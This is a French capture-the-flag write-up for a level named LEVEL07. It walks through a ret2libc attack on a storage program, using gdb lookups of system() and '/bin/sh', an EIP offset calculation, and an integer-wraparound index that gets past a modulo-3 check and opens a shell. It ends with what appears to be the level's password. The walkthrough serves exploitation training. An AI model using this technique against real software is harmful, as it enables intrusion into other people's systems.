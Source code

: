 # LEVEL07

## Faille

Nous avons un programme nous permettant d'exécuter trois commandes : 
- store (index, value)
- read (index)
- quit

Nous remarquons que l'index ne peut pas être un multiple de `3`.

___
## Tests

On veut faire un **return to libc**, nous avons besoin des adresses de `system()` et de **"/bin/sh"**. 

Pour `system` on utilise :

```
(gdb) p system
$20 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

Pour **"/bin/sh"** on utilise :

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

Nous mettons un breakpoint à `main+718` (juste avant le dernier `ret`) pour pouvoir identifier la sauvegarde de l'`EIP`.

```
(gdb) info registers

eax            0x0	0
ecx            0xffffd600	-10752
edx            0xffffd600	-10752
ebx            0xf7fceff4	-134418444
esp            0xffffd6ec	0xffffd6ec
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0x80489f1	0x80489f1 <main+718>
eflags         0x246	[ PF ZF IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

`ESP` correspond à l’adresse de notre sauvegarde de l'`EIP`

	eip = 0xffffd6ec

On stocke la valeur `1` à l'index `1`.

On va ensuite chercher notre valeur en mémoire dans le but de localiser notre buffer en mémoire.

Nous mettons un breakpoint à `*main+638` pour être entre chacune des commandes executées par le programme (store, read, quit).

L'index `1` est stocké à `0xffffd528` donc 

	0xffffd528 - 4 = 0xffffd524

`0xffffd524` correspond à l'adresse du buffer.
 
	0xffffd6ec(EIP) - 0xffffd524(buff) = 456

Notre index offset est de `456`.

Dans le code, les adresses sont multipliées par `4`, on divise donc notre valeur par `4`.

	456 / 4 = 114

`114` étant divisible par `3` on ne peut pas l’utiliser.

Nous prenons la plus grande adresse de la stack (`0xffffffff`) que nous divisions par `4` pour correspondre à l'indexage des valeurs dans notre programme.

	ffffffff(4294967295 + 1) / 4 = 1073741824 

On a un "adressage circulaire", la valeur à l'index `-1` équivaut à `1073741824 - 1`.

Notre valeur stocké à l'index `1` l'est donc aussi à l'index `1073741825`

	1073741824 + 1 = 1073741825 (correspond à index 1)
	1073741824 + 2 = 1073741826 (correspond à index 2)


On peut exécuter la commande `store` à l’index 1 et ensuite `read` avec l'index `1073741825` ou `1` pour pointer sur la même valeur.

	1073741824 + 114 = 1073741938
	
`1073741938` n’est pas divisible par 3. Nous pouvons donc utiliser cette valeur.


## Solution

Nous avons :
- index sEIP = `1073741938`
- system = `0xf7e6aed0` = `4159090384`
- /bin/sh = `0xf7f897ec` = `4160264172`

On stocke donc `4160264172` à l'index 116 et `4159090384` à l'index `1073741938`. On quitte avec la commande `quit` et nous sommes dans le shell de notre `ret2libc`.

>> 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
